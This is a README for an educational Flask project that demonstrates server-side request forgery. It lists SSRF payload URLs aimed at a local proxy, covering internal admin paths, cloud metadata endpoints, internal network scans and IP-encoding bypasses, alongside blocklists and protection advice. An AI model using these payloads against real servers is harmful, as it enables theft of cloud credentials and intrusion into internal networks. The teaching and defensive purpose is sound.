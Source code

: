 # Flask SSRF Vulnerability Simulation

This project demonstrates a critical web security vulnerability, **Server-Side Request Forgery (SSRF)**, within simulated Flask applications. The goal is to follow the "Build It, Break It, Fix It" methodology to understand how SSRF vulnerabilities work, how they can be exploited, and how to defend against them.

## 📜 Project Overview

The application has multiple components:

1. **`vulnerable_app.py`**: A vulnerable proxy server that accepts URLs without validation
2. **`localhashboard.py`**: An internal admin dashboard running on port 80
3. **`exploit_ssrf.py`**: An automated SSRF testing tool
4. **`secure_app.py`**: Security module with SSRF protection decorators

The attack scenario involves exploiting the vulnerable proxy to access internal resources, cloud metadata services, and internal network services that should not be publicly accessible.

* **Vulnerability:** Server-Side Request Forgery (SSRF)
* **Impact:** Internal Network Scanning, Cloud Metadata Access, Internal Service Compromise

---

## ⚙️ Setup & Installation

1. **Clone the repository or download the project files.**
2. **Create and activate a Python virtual environment:**
    ```bash
    # Create the environment
    python -m venv venv

    # Activate it (Windows)
    .\venv\Scripts\activate

    # Activate it (macOS/Linux)
    source venv/bin/activate
    ```
3. **Install the required dependencies:**
    ```bash
    pip install flask requests
    ```

---

## 🚀 How to Run the Demonstration

This demonstration simulates a realistic SSRF attack scenario with multiple vulnerable endpoints and protection mechanisms.

### Part 1: Break It (Exploiting SSRF Vulnerabilities)

**Step 1: Start the Vulnerable Proxy Server**
```bash
python app.py
```
This starts a vulnerable proxy on `http://localhost:5000` that accepts any URL without validation.

**Step 2: Start the Internal Dashboard (requires admin privileges)**
```bash
# On Linux/Mac (requires sudo for port 80)
sudo python localhashboard.py

# On Windows (run as Administrator)
python localhashboard.py
```
This starts an internal admin dashboard on `http://localhost:80` that should not be accessible from outside.

**Step 3: Run the SSRF Attack**
```bash
python exploit_ssrf.py
```
The automated tester will attempt various SSRF attacks including:
- Accessing internal services via the proxy
- Cloud metadata service exploitation
- Internal network scanning
- Bypass technique attempts

---

## 🎯 Attack Scenarios Demonstrated

### 1. Internal Service Access
```http
http://localhost:5000/get?url=http://localhost:80/admin
http://localhost:5000/get?url=http://127.0.0.1:80/api/data
```

### 2. Cloud Metadata Exploitation
```http
http://localhost:5000/get?url=http://169.254.169.254/latest/meta-data/
http://localhost:5000/get?url=http://metadata.google.internal/
```

### 3. Internal Network Scanning
```http
http://localhost:5000/get?url=http://192.168.1.1/
http://localhost:5000/get?url=http://10.0.0.1:8080/
```

### 4. Bypass Techniques
```http
http://localhost:5000/get?url=http://0177.0.0.1:80/        # Octal
http://localhost:5000/get?url=http://0x7f.0.0.1:80/        # Hexadecimal  
http://localhost:5000/get?url=http://2130706433:80/        # Decimal
http://localhost:5000/get?url=http://127.0.0.1.nip.io:80/  # DNS rebinding
```

---

## 🛡️ SSRF Protection Mechanisms

### 1. URL Validation & Allow Lists
```python
ALLOWED_DOMAINS = {'api.trusted.com', 'cdn.example.com'}
BLOCKED_PORTS = {22, 25, 443, 3306, 5432}
```

### 2. Private IP Detection
- Blocks RFC 1918 ranges (10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16)
- Blocks loopback addresses (127.0.0.0/8, ::1)
- Blocks link-local addresses (169.254.0.0/16)

### 3. Scheme Validation
- Only allows HTTP/HTTPS protocols
- Blocks file://, gopher://, dict://, and other dangerous schemes

### 4. DNS Rebinding Protection
- Validates DNS resolutions don't point to internal IPs
- Implements DNS caching and timeout controls

---

## 📊 Test Results & Impact Assessment

### Vulnerability Impact:
- **Critical**: Access to internal admin interfaces
- **High**: Cloud metadata credential theft  
- **Medium**: Internal network reconnaissance
- **Low**: Service enumeration

### Successful Attack Vectors:
- ✅ Internal dashboard access via proxy
- ✅ API endpoint enumeration
- ✅ Local service discovery
- ⚠️ Cloud metadata (environment dependent)

---

## 🔧 Security Recommendations

### 1. Input Validation
- Use allow lists instead of deny lists
- Validate URL schemes and destinations
- Implement proper URL parsing and normalization

### 2. Network Controls
- Implement outbound firewall rules
- Use network segmentation
- Restrict internal service access

### 3. Application Hardening
- Use the `ssrf_protection` decorator on all external URL inputs
- Implement request timeouts and size limits
- Add comprehensive logging and monitoring

### 4. Cloud Protections
- Use instance metadata service v2 (IMDSv2) where available
- Implement service mesh with proper egress controls
- Use cloud-native security groups and NACLs

---

## 📁 Project Structure

```
ssrf-demo/
├── vulnerable_app.py        # Vulnerable proxy application
├── localhashboard.py        # Internal admin dashboard
├── exploit_ssrf.py          # SSRF testing tool
├── secure_app.py            # SSRF protection library
├── requirements.txt         # Python dependencies
└── README.md                # This file
```

---

## ⚠️ Legal & Ethical Notice

This project is for **educational and authorized testing purposes only**. Unauthorized testing of systems you don't own is illegal. Always ensure you have explicit permission before conducting any security testing.

---

## 🎓 Learning Objectives

After completing this demonstration, you should understand:

- How SSRF vulnerabilities occur in web applications
- Common SSRF attack vectors and bypass techniques
- The impact of SSRF on cloud and on-premise environments
- How to implement comprehensive SSRF protection
- Defense-in-depth strategies against SSRF attacks

**Remember: The best defense against SSRF is a combination of proper input validation, network segmentation, and the principle of least privilege.**